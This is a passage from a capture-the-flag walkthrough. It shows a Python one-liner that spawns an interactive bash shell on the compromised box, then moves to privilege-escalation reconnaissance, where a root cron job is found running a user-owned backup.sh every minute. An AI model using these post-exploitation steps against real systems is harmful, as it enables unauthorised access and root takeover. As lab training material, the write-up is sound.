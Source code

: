 As always, I spawned an interactive shell with
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';  
```

!["UserFlag.png"](pictures/userflag.png)  

First flag here !  

## Privileges escalation

I firstly check some SUID and sudo -l but anything that seemed interesting.
So, I check for the crons and Boom !  
```bash
cat /etc/crontab
```
I saw that there were a cron using backup.sh : 
```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
